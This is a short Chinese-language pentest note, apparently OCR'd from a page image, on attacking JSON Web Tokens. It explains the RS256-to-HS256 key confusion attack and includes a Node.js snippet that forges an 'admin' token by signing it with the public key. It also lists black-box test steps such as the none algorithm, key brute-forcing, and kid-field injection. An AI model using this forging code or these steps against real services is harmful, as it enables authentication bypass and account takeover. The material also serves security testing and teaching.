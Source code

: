 ## 密钥混淆攻击(RS256=>HS256)

### 原理

将RS256算法改为HS256（非对称密码算法=>对称密码算法）

HS256算法使用密钥为所有消息进行签名和验证。

而RS256算法则使用私钥对消息进行签名并使用公钥进行身份验证。

```
var jwt = require('jsonwebtoken');

var fs = require('fs');

var privateKey = fs.readFileSync('./public.key');

var token = jwt.sign({ user: 'admin' }, privateKey, { algorithm: 'HS256' });

console.log(token)
```

## 黑盒JWT测试

首先找到需要JWT鉴权后才能访问的页面，如个人资料页面，将该请求包重放测试：

1）未授权访问：删除Token后仍然可以正常响应对应页面

2）敏感信息泄露：通过JWt.io解密出Payload后查看其中是否包含敏感信息，如弱加密的密码等

3）破解密钥+越权访问：通过JWT.io解密出Payload部分内容，通过空加密算法或密钥爆破等方式实现重新签发Token并修改Payload部分内容，重放请求包，观察响应包是否能够越权查看其他用户资料

4）检查Token时效性：解密查看payload中是否有exp字段键值对（Token过期时间），等待过期时间后再次使用该Token发送请求，若正常响应则存在Token不过期

5）通过页面回显进行探测：如修改Payload中键值对后页面报错信息是否存在注入，payload中kid字段的目录遍历问题与sql注入问题